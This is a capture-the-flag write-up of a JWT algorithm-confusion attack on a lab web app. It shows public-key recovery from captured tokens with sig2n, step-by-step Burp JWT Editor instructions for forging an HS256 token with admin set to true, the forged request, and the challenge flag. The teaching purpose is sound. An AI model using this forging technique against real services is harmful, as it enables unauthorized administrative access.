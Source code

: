 # CTFkom 03.09.2025 - Writeup Secure Asymmetric JWT

# Objective and scope

The target application at `http://129.241.150.108:30005` uses a `jwt` cookie for session handling. The objective was to assess and exploit the session handling in order to forge an administrative token and reach the protected endpoint `/flag/`.

# How do Key Confusion Attacks Work

JSON Web Tokens encode a header, a payload, and a signature. RS256 uses an RSA private key for signing and an RSA public key for verification. HS256 uses an HMAC secret for both signing and verification. If a verifier accepts the token’s `alg` header and reuses RSA public-key material as an HMAC secret, an attacker who knows the public key can sign HS256 tokens that the server will accept as authentic. This is then called a key confusion attack. The key questions are whether the public key can be recovered, and which exact byte representation the verifier treats as the HMAC secret, because flawed implementations vary between SubjectPublicKeyInfo, PKCS#1, DER bytes, or even literal PEM text.

# Collected material

An RS256 JWT was observed in traffic and used as input for public-key recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyMzkxNywiZGF0ZV9vZl9iaXJ0aCI6IiJ9.wL0y3OEdqPzEQUYhEfFgETAGuVlysnPbgf6molGDCG8FMkGUvhy24_w8O1jljJ-V5hmY2U6xjqTGtpvMgzG44g
```

When decoding the token, we see the following content inside of the JWT:

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
{
  "username": "test",
  "admin": false,
  "exp": 1756923917,
  "date_of_birth": ""
}
```

The important value is the “admin” boolean, which shows the server if a user has administrative permissions to access the /flag/ endpoint.

So the goal is to forge a token that sets the “value” to `true` and have a valid expiration date and a valid signature. Since this token is using asymmetric algorithms to for signature verification, we cannot just bruteforce the secret. Usually, the first things that comes to mind is a key confusion attack. This type of attack is described at the beginning of the writeup.

Do perform such an attack, a second RS256 token with a slightly different payload was captured to improve recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyNDAzMiwiZGF0ZV9vZl9iaXJ0aCI6IiJ9.vUsAqmHufwd7YoREteaxxx9LMPp_fNdPWV7XbWjoOn8gO7kRlz8E9s1EVbT1xetuTB0LHYXxMW2z33c9Pd4E7g
```

# Public-key recovery and initial acceptance test

Since the public key is not hosted publicly (or at least it’s hidden very well), we need to reconstruct the public key. PortSwigger’s `sig2n` was used to reconstruct the RSA public key and emit candidate HS256 tokens. This is the only helper command that was required:

```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```

Relevant terminal output:

```
Running command: python3 jwt_forgery.py <token1> <token2>

Found n with multiplier 1:
    Base64 encoded x509 key: LS0tLS1---[snip]---tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOiJ---[snip]---fYqUsPY
    Base64 encoded pkcs1 key: LS0---[snip]---S0VZLS0tLS0K
    Tampered JWT: eyJhbGci---[snip]---eAibOmH_zyg-w

Found n with multiplier 2:
    Base64 encoded x509 key: LS0tLS1C---[snip]---VQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOi---[snip]---qfsOmB_tqg
    Base64 encoded pkcs1 key: LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
    Tampered JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ICJ0ZXN0IiwgImFkbWluIjogZmFsc2UsICJleHAiOiAxNzU3MDA5ODY0LCAiZGF0ZV9vZl9iaXJ0aCI6ICIifQ.z4pUOUyrCJFInLoXXyBIPbl7_T25t5IWbB732uLCHPE
```

The script found two different multipliers, so I just tried all the tokens (Tampered JWT) and sent them to the server. The last “tampered” HS256 token was accepted by the server rather than causing a redirect, which proved algorithm confusion and indicated that the verifier reused public-key material as an HMAC secret. So the PKCS#1 RSA PUBLIC KEY PEM text bytes from the “multiplier 2” value are considered valid. This matters because the exact bytes used as the HMAC secret must match the verifier’s expectation.

# Determining the Exact Secret Bytes

The sig2n line labeled “Base64 encoded pkcs1 key” for multiplier 2 is the base64 of the RSA PUBLIC KEY PEM text. Decoding it yields the full `-----BEGIN RSA PUBLIC KEY-----` block with header, footer, and line breaks. The verifier treated those literal PEM bytes as the HMAC secret, not DER, not SPKI, and not x509.

# Burp Suite Exploitation Using JWT Editor

This attack can be performed entirely in Burp by registering the correct symmetric key and letting the extension re-sign the token. We need the JWT Editor extension in burp to perform this attack.

The following base64 value can be used in the k value in the JWT token (this is the public key that we reconstructed earlier):

```
LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
```

In Burp Suite, the attack can now be done. Here are the exact steps to forge a token and sign it using the public key:

1. Open the JWT Editor Key**s** tab. Click New Symmetric Key. Set `kty` to `oct`. Set `k` to the public key that’s base64 encoded. Optionally set a `kid`, but this is not required. Save the key.
2. Send a request that carries the `jwt` cookie to Repeater. Select that request and open the JSON Web Token tab for the cookie value.
3. Edit the JWT header so that `alg` is `HS256` and `typ` is `JWT`.
4. Edit the payload to include the intended claims. Use at least `{"username":"test","admin":true,"exp":<fresh-epoch>,"date_of_birth":""}`. The exp can be calculated using this website [https://www.unixtimestamp.com/](https://www.unixtimestamp.com/)
5. Click **Sign** and choose the symmetric key created in the JWT Editor Keys tab. Burp replaces the signature with a valid HS256 HMAC using the registered key.
6. Send the request to `/flag/`. 

The endpoint shows a 200 status code and shows the flag. The full request and response is shown in the next chapter.

# Access to the Protected Resource and Flag

With the forged token set in the `jwt` cookie, `/flag/` returned HTTP 200 and the flag was present in the response. Here is the request that was being used request:

```
GET /flag/ HTTP/1.1
Host: 129.241.150.108:30005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://129.241.150.108:30005/home/
Cookie: jwt=**eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU3MDExMTc2LCJkYXRlX29mX2JpcnRoIjoiIn0.n7ShzBoadFfV-fhkE6RvtcNWO9KBm56qXGg65iPuW_g**
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The result was a HTTP 200 with the flag in the response body. This confirms that the server validated a HS256 signature produced with the PKCS#1 PEM text secret and accepted the administrative claim.

![image.png](image.png)

The flag is:

```
CTFkom{ddaf66f1b50d425e7d68ad930ae563a}
```

# Conclusion

The verifier accepted the token’s `alg` header and reused RSA public-key material as an HMAC secret. The exact secret matched the decoded PKCS#1 RSA PUBLIC KEY PEM text bytes from `sig2n` multiplier 2. Constructing and signing an HS256 token with `admin: true` and a valid expiry in Burp’s JWT Editor yielded HTTP 200 on `/flag/`.

This proves that there is a key confusion vulnerability in the token verifier which can be abused to forge tokens with administrative access.